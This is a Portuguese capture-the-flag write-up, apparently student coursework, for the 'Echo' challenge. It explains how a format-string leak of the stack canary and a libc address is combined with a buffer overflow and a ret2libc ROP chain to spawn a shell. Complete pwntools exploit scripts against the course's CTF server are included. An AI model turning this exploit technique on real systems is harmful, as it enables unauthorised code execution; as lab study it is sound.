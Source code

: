 # Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas vulnerabilidades são a base do exploit.

Por fim, notou-se também que o programa tinha todas as proteções ativadas tornando vários tipos de ataques inviáveis ou consideravelmente mais difíceis de pôr em prática como ASLR e o caso de canários para dificultar buffer overflow, por exemplo.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, sendo útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Começando agora propriamente a tratar do exploit, para facilitar o teste do nosso ataque procurou-se desativar a **ASLR** (Address space layout randomization) localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.

Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário, decidimos correr o programa duas vezes e verificar se o argumento mudava... (Isto só é possível pelo facto de termos desligado o ASLR.)

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp, o return address estará no 11º argumento.

Temos os argumentos 8 e 11:

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da **__libc_start_main** procurou-se descobrir o offset desta para a base da libc:

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de retorno, desta vez dentro do gdb e para a libc fornecida, apercebemo-nos que o offset entre o endereço leaked e o __start_libc_main é de - 71 (decimal), sendo este valor importante para que consigámos dar uso a uma biblioteca auxiliar de uma forma mais clara.

Para descobrir o endereço base local da libc pode-se usar o gdb. Sendo oportuno para que através do segundo endereço cheguemos ao valor do offset pela subtração dos dois.

![imagem-8.png](./imagem-8.png)

Abaixo note-se a instrução dentro da libc que aparenta estar guardada nesse offset ... um pouco estranho
![imagem-7.png](./imagem-7.png)

**Nota:** A conta do offset varia conforme a biblioteca que se está a ser usada

O endereço base será então:
> Endereço_leak - libc.symbols["__libc_start_main"] + 71

Assim sendo, até agora temos o seguinte python script:

```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora alterar o endereço de retorno da frame atual por uma função da nossa escolha.
Neste caso chamaremos a função **system()** com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata de todo este processo de **ROP** (Return Oriented Programming).

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita, porém, se somarmos um valor pequeno ao último byte do canário conseguimos ultrapassá-lo sem sermos detetados. 

Tal só acontece porque a deteção de integridade do canário só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo temos:
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Para repôr o estado do canário basta utilizar:

```python
r = message(p, b"." * 19)
```
Com isto o 20 elemento do array será um /0, restaurando o canário.
Neste passo poderiámos talvez ter usado a vulnerablidade de format string para escrever o canário.


Agora basta correr o programa e sair dele, usando a opção "q" para obter a flag:

![imagem-6.png](./imagem-6.png)

Aqui encontra-se o python script finalizado que foi utilizado para adquirir a flag:

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()


```






